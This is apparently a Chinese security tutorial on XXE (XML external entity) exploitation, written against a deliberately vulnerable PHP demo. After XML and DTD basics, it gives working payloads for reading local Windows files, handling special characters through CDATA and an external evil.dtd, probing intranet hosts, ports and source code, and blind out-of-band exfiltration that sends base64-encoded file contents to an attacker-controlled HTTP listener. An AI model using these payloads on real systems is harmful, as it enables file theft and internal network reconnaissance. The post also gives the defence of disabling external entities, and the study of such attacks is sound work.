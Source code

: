```yaml
---
title: XXE漏洞利用
description: 演示XXE漏洞利用方法，包括读取文件、内网探测，其中包括一些小技巧：读取含有特殊字符文件的方法、无回显情况下通过外带数据读取的方法。
categories:
 - web vul
tags:
 - XXE
---
```


## 概述

> XXE（外部实体注入）是XML注入的一种，普通的XML注入利用面比较狭窄，如果有的话也是逻辑类漏洞。XXE扩大了攻击面，当允许引用**外部实体**时，就可能导致**任意文件读取、系统命令执行、内网端口探测、攻击内网**等危害。   
防御方法：禁用外部实体（PHP：可以将`libxml_disable_entity_loader`设置为`TRUE`来禁用外部实体）

## XML基础知识

### XML 基本结构

> 一个完整的XML主要包括以下三部分：`XML声明`、`DTD`（文档说明）、`XML部分`
DTD 的作用：
1. 定义元素 `ELEMENT`（其实就是对应 XML 中的标签）；
2. 定义实体 `ENTITY` (对应XML 标签中的内容)

![pic](/assets/xxe/1.png)

假如 DTD 位于 XML 源文件的外部，那么可以通过引用【外部文档说明】的方式，效果同上：

![pic](/assets/xxe/2.png)

### 两种外部文档说明（DTD）

* 当引用的DTD文件是本地文件的时候，用SYSTEM标识，并写上DTD的文件路径   
```xml
<!DOCTYPE 根元素 SYSTEM "DTD文件路径">`
```

* 如果引用的DTD文件是一个公共文件时，采用PUBLIC标识   
```xml
<!DOCTYPE 根元素 PUBLIC "DTD名称" "DTD文件的URL">`
```

### 四种实体声明（ENTITY）

* 内部实体声明  
`<!ENTITY 实体名称 "实体的值">`

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "Thinking">]>
<foo>&xxe;</foo>
```

* 外部实体声明  
`<!ENTITY 实体名称 SYSTEM "URI/URL">`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [
<!ENTITY test SYSTEM "http://www.runoob.com/entities.dtd">]>
<reset>
  <login>&test;</login>
  <secret>login</secret>
</reset>
```

上述两种均为**引用实体**，主要在XML文档中被应用，引用方式：**&实体名称;**末尾要带上分号，这个引用将直接转变成实体内容。

* 参数实体声明

```sh
<!ENTITY % 实体名称 "实体的值"> 
<!ENTITY % 实体名称 SYSTEM "URI/URL"> 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [
<!ENTITY % body SYSTEM "http://www.runoob.com/entities.dtd" >
<!ENTITY xxe "%body;">
]>
<reset>
  <secret>login</secret>
</reset>
```

> 参数实体，被DTD文件自身使用 ，引用方式为：**%实体名称**。和通用实体一样，参数实体也可以外部引用。  
允许包含**外部实体**，就可能存在XXE攻击。  
外部引用可支持**http，file**等协议，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下

![pic](/assets/xxe/3.png)

* 公共实体声明

```sh
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```

## XXE漏洞

### 实验1（有回显）

测试demo：

```php
<?php
    libxml_disable_entity_loader (false);
    //若为true，则表示禁用外部实体
    $xmlfile = file_get_contents('php://input');
    //可以获取POST来的数据
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

#### 利用1 读取本地文件

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

![pic](/assets/xxe/4.png)

#### 利用2 读取含有特殊字符的本地文件

> 如果文件中含有特殊字符，如 `&,<,>,",'` 等，通过上述方法会报错，需要借助CDATA，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///C:/phpStudy/WWW/zhan/XXE-K/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://192.168.220.143:8888/zhan/XXE-K/evil.dtd">
%dtd; ]>
 
<roottag>&all;</roottag>
```

其中，`http://192.168.220.143:8888/zhan/XXE-K/evil.dtd` ：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```

![pic](/assets/xxe/5.png)

#### 利用3 内网ip探测

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.220.144"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断ip是否存在，可以通过burp重放遍历端口。

#### 利用4 内网端口探测

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.220.144:22"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断端口是否开放，可以通过burp重放遍历端口；如果有报错，可以直接探测出banner信息。

![pic](/assets/xxe/6.png)

#### 利用5 内网源码探测

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.220.144/bWAPP/login.php"> ]>
<creds>&goodies;</creds>
```

审计源码，进一步发现内网系统漏洞（如sql注入,struts2命令执行），则可通过blind XXE进行注入  
其他：通过jar协议上传文件；通过ftp协议结合 CRLF 注入攻击SMTP服务器


### 实验2 （无回显）

测试demo：

```php
<?php
    libxml_disable_entity_loader (false);
    //若为true，则表示禁用外部实体
    $xmlfile = file_get_contents('php://input');
    //可以获取POST来的数据
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
?>
```

#### 外带数据读取文件

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.220.143:8888/zhan/XXE-K/evil2.dtd">
%remote;%int;%send;
]>
```

`http://192.168.220.143:8888/zhan/XXE-K/evil2.dtd` :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/system.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.220.144:9999?p=%file;'>">
```

![pic](/assets/xxe/7.png)

## 参考链接

[一篇文章带你深入理解漏洞之XXE漏洞](https://xz.aliyun.com/t/3357)  
[歪？我想要一个XXE](https://mp.weixin.qq.com/s?__biz=MzU1ODg3NTMyMQ==&mid=2247489349&idx=1&sn=ab435be65bc6c35a21ea4bd040693d8c&source=41#wechat_redirect)